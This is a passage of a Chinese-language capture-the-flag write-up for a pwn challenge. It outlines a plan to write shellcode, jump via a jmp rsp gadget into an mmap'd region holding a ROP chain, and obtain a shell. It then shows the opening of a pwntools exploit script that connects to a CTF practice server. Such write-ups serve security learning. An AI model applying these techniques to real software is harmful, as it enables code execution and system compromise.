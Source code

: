 ```plain
32+8=40
```

[![](assets/1701612140-8570dc93c4caa0a0dd393ef55e1de923.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230815203630-5c4cca76-3b68-1.png)

知道了起始地址，这段空间大小0x1000,也就是说read里面读取到哪里都无所谓反正mmap\_place+x<=max\_place就可以，后面那个0x100是读取大小

所以思路也就有了：

*   首先构造我们的shellcode
*   利用jmp\_rsp，跳转到给我们提供mmap的内存这里写入我们的ROP链
*   getshell

先上exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",25757)
#p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
```